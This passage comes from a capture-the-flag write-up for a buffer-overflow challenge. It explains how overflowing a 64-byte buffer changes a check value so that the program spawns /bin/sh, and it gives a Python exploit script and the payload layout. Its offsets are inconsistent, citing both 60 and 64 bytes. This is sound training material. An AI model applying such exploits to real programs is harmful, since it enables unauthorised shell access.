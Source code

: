 **The Exploit:**
- We can write more than 64 bytes into the buffer
- After 60 bytes, we'll start overwriting the check value at `[RBP - 0x4]`
- If we overwrite it with a different value, the `cmpl` will fail
- When it fails, `system()` is called with a shell command!

---

## Phase 3: Exploitation

### 3.1 Crafting the Payload

To trigger the `system()` call, we need to:

1. Fill the 64-byte buffer with junk data
2. Overwrite the 4-byte check value with anything EXCEPT `0x539`
3. Send this payload to the program

**Payload Structure:**
```
[64 bytes of junk] + [4 bytes different from 0x539]
```

### 3.2 Python Exploit

```python
#!/usr/bin/env python3
import subprocess

# Craft payload: 64 bytes of 'A' + 4 bytes of 'B' (0x42424242)
payload = b'A' * 64 + b'B' * 4

# Send payload to the binary
proc = subprocess.Popen(
    ['/home/jack/Documents/hacktivities/projects/pwn ctfs/pwn101/pwn101'],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

stdout, stderr = proc.communicate(input=payload)

print("STDOUT:")
print(stdout.decode())
print("\nSTDERR:")
print(stderr.decode())
print(f"\nReturn Code: {proc.returncode}")
```

### 3.3 Expected Output

When the check fails, the program executes:
```c
system("/bin/sh");  // This spawns an interactive shell
```
